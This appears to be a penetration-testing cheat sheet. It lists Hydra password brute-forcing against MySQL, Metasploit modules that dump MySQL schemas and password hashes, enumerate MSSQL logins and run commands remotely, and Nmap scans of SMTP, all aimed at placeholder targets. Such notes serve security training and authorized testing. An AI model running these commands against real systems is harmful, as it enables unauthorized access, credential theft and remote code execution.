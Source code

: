 **Hydra**

```
hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> mysql
```

**Metasploit**

```
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login

## MS Sql
use auxiliary/scanner/mssql/mssql_login
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_domain_accounts

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

## set options depends on the selected module
set USERNAME root
set PASSWORD ""

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE false
set PASSWORD ""

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""

set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true

set CMD whoami
exploit
```

**SMTP**



**Nmap**

```
sudo nmap -p 25 -sV -sC -O <TARGET_IP>

nmap -sV -script banner <TARGET_IP>
```
